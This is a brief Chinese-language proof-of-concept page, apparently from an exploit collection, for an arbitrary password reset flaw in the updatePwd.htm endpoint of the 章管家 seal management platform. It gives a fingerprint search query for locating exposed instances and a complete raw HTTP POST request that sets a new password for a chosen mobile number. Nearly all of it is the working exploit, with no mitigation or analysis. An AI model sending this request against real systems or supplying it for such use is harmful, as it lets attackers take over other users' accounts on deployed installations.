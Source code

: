 # 章管家updatePwd.htm存在任意账号密码重置漏洞

章管家是上海建业信息科技股份有限公司推出的一款针对传统印章风险管理提供的整套解决方案的工具。

```yaml
app="章管家-印章智慧管理平台"
```

## poc

```java
POST /app/updatePwd.htm HTTP/1.1
Host:
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 87
Content-Type: application/x-www-form-urlencoded

mobile=18888888888&newPassword=12312dsa12&equipmentName=xxxxxx&version=4.0.0&token=dingtalk_token
```

